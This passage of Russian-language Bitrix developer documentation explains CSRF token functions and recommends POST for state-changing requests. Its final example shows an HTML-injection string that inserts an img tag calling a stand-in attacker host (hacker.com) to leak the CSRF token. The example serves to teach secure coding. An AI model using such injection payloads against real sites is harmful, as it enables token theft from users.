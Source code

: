 -  `bitrix_sessid_get()` -- формирует параметр для GET-запросов. Используйте функцию, чтобы выполнить конфиденциальные действия через GET. Например, выйти из системы. Сформируйте ссылку так: `'url?parameters&' . bitrix_sessid_get();`.

   ```php
   echo bitrix_sessid_get(); // sessid=feb8414592f24d96f6fd0c656e6ccd67
   ```

-  `check_bitrix_sessid()` -- проверяет, совпало ли значение `bitrix_sessid` с `$varname` или заголовком `X-Bitrix-Csrf-Token`.

   ```php
   return (
      $request[$varname] === bitrix_sessid() ||
      $request->getHeader('X-Bitrix-Csrf-Token') === bitrix_sessid()
   );
   ```

В общем виде для проверки корректности запроса достаточно добавить `check_bitrix_sessid` в условие:

```php
if (check_bitrix_sessid()) {
     // Действие выполняется
}
```

Включайте токен для AJAX-запросов с помощью функции  `BX.bitrix_sessid()`.

{% note info %}
 

Выполняйте запросы на изменение состояния приложения методом POST. Передача токена через GET может привести к его раскрытию. Если необходимо использовать GET, после обработки запроса сделайте редирект без CSRF-токена.


{% endnote %}

HTML-инъекции могут нарушить форматирование и привести к утечке CSRF-токена. Например:

```php
<form method="POST" action="/action.php">
	<input type="text" name="foo" value="<?= $injection ?>"
	<!-- Это наш секретный CSRF-токен! -->
	<?= bitrix_sessid_post() ?>
	...
</form>
<script>
    var someVar = 'text';
</script>
```

Если в `$injection` попадет строка `"\"><img src='http://hacker.com/?token="`, отправленная пользователем, получится форма следующего вида:

```html
<form method="POST" action="action.php">
	<input type="text" name="foo" value="" />
	<img src='http://hacker.com?token="'>
	<!-- Это наш секретный CSRF-токен! -->	
	<input type="hidden" name="sessid" id="sessid" value="random" />
</form>
<script>
	var someVar = 'text';
</script>
```
